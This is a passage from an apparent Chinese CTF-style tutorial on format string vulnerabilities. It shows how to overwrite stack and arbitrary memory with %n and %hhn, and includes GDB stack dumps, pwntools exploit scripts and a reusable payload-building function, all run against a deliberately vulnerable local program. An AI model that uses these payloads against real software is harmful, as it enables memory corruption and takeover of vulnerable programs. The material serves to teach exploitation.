    我们不能直接在命令行输入:raw-latex:`\x`0c:raw-latex:`\xa`0:raw-latex:`\x`04:raw-latex:`\x`08%4$s这是因为虽然前面的确实是printf@got的地址，但是，scanf函数并不会将其识别为对应的字符串，而是会将,x,0,c分别作为一个字符进行读入。下面就是错误的例子。

    .. code:: shell

        0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10   ← $esp
        0xffffcd00│+0x04: 0xffffcd10  →  "\x0c\xa0\x04\x08%4$s"
        0xffffcd04│+0x08: 0xffffcd10  →  "\x0c\xa0\x04\x08%4$s"
        0xffffcd08│+0x0c: 0x000000c2
        0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
        0xffffcd10│+0x14: "\x0c\xa0\x04\x08%4$s"   ← $eax
        0xffffcd14│+0x18: "\xa0\x04\x08%4$s"
        0xffffcd18│+0x1c: "\x04\x08%4$s"
        ─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
        [#0] 0xf7e44670 → Name: __printf(format=0xffffcd10 "\\x0c\\xa0\\x04\\x08%4$s")
        [#1] 0x80484ce → Name: main()
        ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
        gef➤  x/x 0xffffcd10
        0xffffcd10:   0x6330785c

覆盖内存
========

上面，我们已经展示了如何利用格式化字符串来泄露栈内存以及任意地址内存，那么我们有没有可能修改栈上变量的值呢，甚至修改任意地址变量的内存呢?答案是可行的，只要变量对应的地址可写，我们就可以利用格式化字符串来修改其对应的数值。这里我们可以想一下格式化字符串中的类型

::

    %n,不输出字符，但是把已经成功输出的字符个数写入对应的整型指针参数所指的变量。

通过这个类型参数，再加上一些小技巧，我们就可以达到我们的目的，这里仍然分为两部分，一部分为覆盖栈上的变量，第二部分为覆盖指定地址的变量。

这里我们给出如下的程序来介绍相应的部分。

.. code:: c

    #include <stdio.h>
    int a = 123, b = 456;
    int main() {
      int c = 789;
      char s[100];
      printf("%p\n", &c);
      scanf("%s", s);
      printf(s);
      if (c == 16) {
        puts("modified c.");
      } else if (a == 2) {
        puts("modified a for a small number.");
      } else if (b == 0x12345678) {
        puts("modified b for a big number!");
      }
      return 0;
    }

makefile在对应的文件夹中。而无论是覆盖哪个地址的变量，我们基本上都是构造类似如下的payload

.. code:: text

    ...[overwrite addr]....%[overwrite offset]$n

其中...表示我们的填充内容，overwrite addr
表示我们所要覆盖的地址，overwrite
offset地址表示我们所要覆盖的地址存储的位置为输出函数的格式化字符串的第几个参数。所以一般来说，也是如下步骤

-  确定覆盖地址
-  确定相对偏移
-  进行覆盖

覆盖栈内存
----------

确定覆盖地址
~~~~~~~~~~~~

首先，我们自然是来想办法知道栈变量c的地址。由于目前几乎上所有的程序都开启了aslr保护，所以栈的地址一直在变，所以我们这里故意输出了c变量的地址。

确定相对偏移
~~~~~~~~~~~~

其次，我们来确定一下存储格式化字符串的地址是printf将要输出的第几个参数()。
这里我们通过之前的泄露栈变量数值的方法来进行操作。通过调试

.. code:: shell

     → 0xf7e44670 <printf+0>       call   0xf7f1ab09 <__x86.get_pc_thunk.ax>
       ↳  0xf7f1ab09 <__x86.get_pc_thunk.ax+0> mov    eax, DWORD PTR [esp]
          0xf7f1ab0c <__x86.get_pc_thunk.ax+3> ret    
          0xf7f1ab0d <__x86.get_pc_thunk.dx+0> mov    edx, DWORD PTR [esp]
          0xf7f1ab10 <__x86.get_pc_thunk.dx+3> ret    
    ────────────────────────────────────────────────────────────────────────────────────[ stack ]────
    ['0xffffcd0c', 'l8']
    8
    0xffffcd0c│+0x00: 0x080484d7  →  <main+76> add esp, 0x10     ← $esp
    0xffffcd10│+0x04: 0xffffcd28  →  "%d%d"
    0xffffcd14│+0x08: 0xffffcd8c  →  0x00000315
    0xffffcd18│+0x0c: 0x000000c2
    0xffffcd1c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
    0xffffcd20│+0x14: 0xffffcd4e  →  0xffff0000  →  0x00000000
    0xffffcd24│+0x18: 0xffffce4c  →  0xffffd07a  →  "XDG_SEAT_PATH=/org/freedesktop/DisplayManager/Seat[...]"
    0xffffcd28│+0x1c: "%d%d"     ← $eax

我们可以发现在0xffffcd28处存储着变量c的数值。继而，我们再确定格式化字符串'%d%d'的地址0xffffcd28相对于printf函数的格式化字符串参数0xffffcd10的偏移为0x18，即格式化字符串相当于printf函数的第7个参数，相当于格式化字符串的第6个参数。

进行覆盖
~~~~~~~~

这样，第6个参数处的值就是存储变量c的地址，我们便可以利用%n的特征来修改c的值。payload如下

.. code:: text

    [addr of c]%012d%6$n

addr of c
的长度为4，故而我们得再输入12个字符才可以达到16个字符，以便于来修改c的值为16。

具体脚本如下

.. code:: python

    def forc():
        sh = process('./overwrite')
        c_addr = int(sh.recvuntil('\n', drop=True), 16)
        print hex(c_addr)
        payload = p32(c_addr) + '%012d' + '%6$n'
        print payload
        #gdb.attach(sh)
        sh.sendline(payload)
        print sh.recv()
        sh.interactive()

    forc()

结果如下

.. code:: shell

    ➜  overwrite git:(master) ✗ python exploit.py
    [+] Starting local process './overwrite': pid 74806
    0xfffd8cdc
    ܌��%012d%6$n
    ܌��-00000160648modified c.

覆盖任意地址内存
----------------

覆盖小数字
~~~~~~~~~~

首先，我们来考虑一下如何修改data段的变量为一个较小的数字，比如说，\ **小于机器字长的数字**\ 。这里以2为例。可能会觉得这其实没有什么区别，可仔细一想，真的没有么？如果我们还是将要覆盖的地址放在最前面，那么将直接占用机器字长个(4或8)字节。显然，无论之后如何输出，都只会比4大。

    获取我们可以使用整形溢出来修改对应的地址的值，但是这样将面临着我们得一次输出大量的内容。而这，一般情况下，基本都不会攻击成功。

那么我们应该怎么做呢？再仔细想一下，我们有必要将所要覆盖的变量的地址放在字符串的最前面么？似乎没有，我们当时只是为了寻找偏移，所以才把tag放在字符串的最前面，如果我们把tag放在中间，其实也是无妨的。类似的，我们把地址放在中间，只要能够找到对应的偏移，其照样也可以得到对应的数值。前面已经说了我们的格式化字符串的为第6个参数。由于我们想要把2写到对应的地址处，故而格式化字符串的前面的字节必须是

.. code:: text

    aa%k$n

此时对应的存储的格式化字符串已经占据了6个字符的位置，如果我们再添加两个字符aa，那么其实aa%k就是第6个参数，$naa其实就是第7个参数，后面我们如果跟上我们要覆盖的地址，那就是第8个参数，所以如果我们这里设置k为8，其实就可以覆盖了。

利用ida可以得到a的地址为0x0804A024

.. code:: assembly

    .data:0804A024                 public a
    .data:0804A024 a               dd 7Bh  

故而我们可以构造如下的利用代码

.. code:: python

    def fora():
        sh = process('./overwrite')
        a_addr = 0x0804A024
        payload = 'aa%8$naa' + p32(a_addr)
        sh.sendline(payload)
        print sh.recv()
        sh.interactive()

对应的结果如下

.. code:: shell

    ➜  overwrite git:(master) ✗ python exploit.py
    [+] Starting local process './overwrite': pid 76508
    [*] Process './overwrite' stopped with exit code 0 (pid 76508)
    0xffc1729c
    aaaa$\xa0\x0modified a for a small number.

其实，这里我们需要掌握的小技巧就是，我们没有必要必须把地址放在最前面，放在那里都可以，只要我们可以找到其对应的偏移即可。

覆盖大数字
~~~~~~~~~~

上面介绍了覆盖小数字，这里我们就少覆盖大数字了。上面我们也说了，我们可以选择直接一次性输出大数字个字节来进行覆盖，但是这样基本也不会成功，因为太长了。而且即使成功，我们一次性等待的时间也太长了，那么有没有什么比较好的方式呢？自然是有了。

不过在介绍之前，我们得先再简单了解一下，变量在内存中的存储格式。首先，所有的变量在内存中都是以字节进行存储的。此外，变量一般的存储格式为以小端存储，即最低有效位存储在低地址。举个例子，0x12345678在内存中由低地址到高地址依次为:raw-latex:`\x`78:raw-latex:`\x`56:raw-latex:`\x`34:raw-latex:`\x`12。再者，我们可以回忆一下格式化字符串里面的标志，可以发现有这么两个标志

.. code:: text

    hh 对于整数类型，printf期待一个从char提升的int尺寸的整型参数。
    h  对于整数类型，printf期待一个从short提升的int尺寸的整型参数。

所以说，我们可以利用%hhn向某个地址写入单字节，利用%hn向某个地址写入双字节。这里，我们以单字节为例。

首先，我们还是要确定的是要覆盖的地址为多少，利用ida看一下，可以发现地址为0x0804A028。

.. code:: text

    .data:0804A028                 public b
    .data:0804A028 b               dd 1C8h                 ; DATA XREF: main:loc_8048510r

即我们希望将按照如下方式进行覆盖，前面为覆盖地址，后面为覆盖内容。

.. code:: text

    0x0804A028 \x78
    0x0804A029 \x56
    0x0804A02a \x34
    0x0804A02b \x12

首先，由于我们的字符串的偏移为6，所以我们可以确定我们的payload基本是这个样子的

.. code:: text

    p32(0x0804A028)+p32(0x0804A029)+p32(0x0804A02a)+p32(0x0804A02b)+pad1+'%6$n'+pad2+'%7$n'+pad3+'%8$n'+pad4+'%9$n'

我们可以依次进行计算。这里给出一个基本的构造，如下

.. code:: python

    def fmt(prev, word, index):
        if prev < word:
            result = word - prev
            fmtstr = "%" + str(result) + "c"
        elif prev == word:
            result = 0
        else:
            result = 256 + word - prev
            fmtstr = "%" + str(result) + "c"
        fmtstr += "%" + str(index) + "$hhn"
        return fmtstr


    def fmt_str(offset, size, addr, target):
        payload = ""
        for i in range(4):
            if size == 4:
                payload += p32(addr + i)
            else:
                payload += p64(addr + i)
        prev = len(payload)
        for i in range(4):
            payload += fmt(prev, (target >> i * 8) & 0xff, offset + i)
            prev = (target >> i * 8) & 0xff
        return payload
    payload = fmt_str(6,4,0x0804A028,0x12345678)

其中每个参数的含义基本如下

-  offset表示要覆盖的地址最初的偏移
-  size表示机器字长
-  addr表示将要覆盖的地址。
-  target表示我们要覆盖为的目的变量值。

相应的exploit如下

.. code:: python

    def forb():
        sh = process('./overwrite')
        payload = fmt_str(6, 4, 0x0804A028, 0x12345678)
        print payload
        sh.sendline(payload)
        print sh.recv()
        sh.interactive()

结果如下

.. code:: python

    ➜  overwrite git:(master) ✗ python exploit.py
    [+] Starting local process './overwrite': pid 78547
    (\xa0\x0)\xa0\x0*\xa0\x0+\xa0\x0%104c%6$hhn%222c%7$hhn%222c%8$hhn%222c%9$hhn
    [*] Process './overwrite' stopped with exit code 0 (pid 78547)
    0xfff6f9bc
    (\xa0\x0)\xa0\x0*\xa0\x0+\xa0\x0                                                                                                       X                                                                                                                                                                                                                             �                                                                                                                                                                                                                             \xbb                                                                                                                                                                                                                             ~modified b for a big number!

    当然，其实这里我们也可以利用%n分别对每个地址进行写入，也可以得到对应的答案，但是由于我们写入的变量都只会影响由其开始的四个字节，所以最后一个变量写完之后，我们可能会修改之后的三个字节，如果这三个字节比较重要的话，程序就有可能因此崩溃。而采用%hhn则不会有这样的问题，因为这样只会修改相应地址的一个字节。
